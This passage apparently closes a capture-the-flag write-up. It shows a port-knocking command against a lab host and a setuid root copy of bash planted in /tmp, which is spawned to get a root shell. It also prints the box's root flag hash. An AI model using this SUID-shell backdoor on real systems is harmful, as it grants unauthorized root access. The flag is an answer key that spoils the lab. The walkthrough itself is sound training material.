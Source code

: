 > └> knock -v $RHOSTS 5020 6120 7340

> hitting tcp 10.10.115.32:5020

> hitting tcp 10.10.115.32:6120

> hitting tcp 10.10.115.32:7340


> dev1@incognito:/etc/init.d$ ls -lah /tmp/root_bash 

> -rwsr-sr-x 1 root root 1.1M Jan 24 06:25 /tmp/root_bash
We did it!

7. Let’s spawn a root Bash shell!
![image](https://github.com/user-attachments/assets/d404912f-6171-404f-8e13-242d03b10940)
I’m root! :D

## Rooted
root.txt:

> root_bash-4.4# cat /root/root.txt

> 9dcb607e31348671de36b9eb7446cb59
